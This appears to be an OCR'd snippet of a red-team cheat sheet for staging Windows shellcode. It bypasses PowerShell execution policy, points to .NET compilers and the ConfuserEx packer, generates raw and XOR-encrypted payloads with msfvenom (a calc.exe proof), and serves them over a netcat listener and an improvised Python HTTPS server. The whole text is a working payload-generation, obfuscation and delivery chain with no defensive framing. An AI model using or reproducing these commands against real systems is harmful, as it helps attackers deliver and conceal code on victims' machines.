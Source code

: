 Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process 


//32 bit
$env:Path += 'C:\Windows\Microsoft.NET\Framework\v4.0.30319'

//64 bit
$env:Path += 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319'

//packer
https://mkaring.github.io/ConfuserEx/


//create payload
msfvenom -p windows/exec cmd="calc.exe" exitfunc=none/thread -f raw -o shell
msfvenom -p windows/exec cmd="calc.exe" exitfunc=none/thread --encrypt=xor --encrypt=YoloSpaceHacker -f raw -o shell


//serve payload
nc -lvnp 9000 < shell

sudo python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER);context.load_cert_chain('localhost.pem', 'localhost.key');httpd.socket=context.wrap_socket(httpd.socket,server_side=True);httpd.serve_forever()"

